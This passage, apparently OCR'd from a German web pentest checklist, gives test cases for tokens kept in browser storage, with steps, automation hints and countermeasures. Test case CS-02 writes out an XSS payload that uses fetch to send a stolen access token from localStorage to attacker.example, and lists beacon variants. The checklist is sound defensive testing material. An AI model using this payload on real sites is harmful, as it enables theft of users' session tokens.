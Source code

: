 1. Öffne DevTools → Application (Storage). Prüfe `localStorage`, `sessionStorage`, `IndexedDB`.
2. Suche nach typischen Token-Mustern: JWTs (3 Teile Base64 mit `.`), long hex strings, `api_key`, `refresh_token`, `access_token`.
3. Notiere Key-Namen, Werte, TTL-Hinweise (falls in value kodiert), ob Werte Base64/JSON kodiert sind.

**Automation-Hint**

- Puppeteer/Playwright Script, das `window.localStorage` ausliest und nach Patterns filtert.
- Grep in exported storage dumps.

**Erwartetes Ergebnis / Beweis**

- Keine sensitiven Tokens in `localStorage`/`sessionStorage`/`IndexedDB`. Evidence: Screenshot / exportierter Storage JSON mit markierten Findings.

**Schnelle Gegenmaßnahme**

- Entferne Tokens aus Client-Storage; speichere nur minimalen UX-State (kein PII, keine Secrets).

---

### CS-02 — XSS → read & exfiltrate storage (XSS-Amplification PoC)

**WSTG-Mapping:** XSS (amplification).

**Kurz-Schritte**

1. Führe einen autorisierten, aber harmlosen Stored/Reflected XSS-PoC ein (in Scope!). Beispiel PoC: `"><script>fetch('https://attacker.example/steal?d='+encodeURIComponent(localStorage.getItem('access_token')))</script>`.
2. Lade Seite als Opfer (anderer Browser) und beobachte exfil-Endpoint (oder setze `console.log`).
3. Variationen: exfil via `Image()` beacon, `navigator.sendBeacon`, CORS evasion etc.

**Automation-Hint**

- Setze ein lokales HTTP Capture Endpoint (netcat/simple server) um GET/POSTs zu beobachten.
- Puppeteer zum automatischen Inject & Detection.

**Erwartetes Ergebnis / Beweis**

- Wenn Token in Client-Storage liegt, PoC zeigt erfolgreiche Exfiltration (Request an attacker endpoint). Proof: Server logs with stolen value, raw request, screenshot of alert.
    
    **Schnelle Gegenmaßnahme**
    
- Entferne Tokens aus JS-zugreifbaren Speicher; falls unvermeidbar → kürzere TTL, rotate keys; CSP reduziert XSS-Angriffsfläche.

> Wichtig: XSS-PoC nur in autorisierten Testumgebungen ausführen!
> 

---

### CS-03 — Persistence & logout behavior

**WSTG-Mapping:** Session Management / Logout semantics.
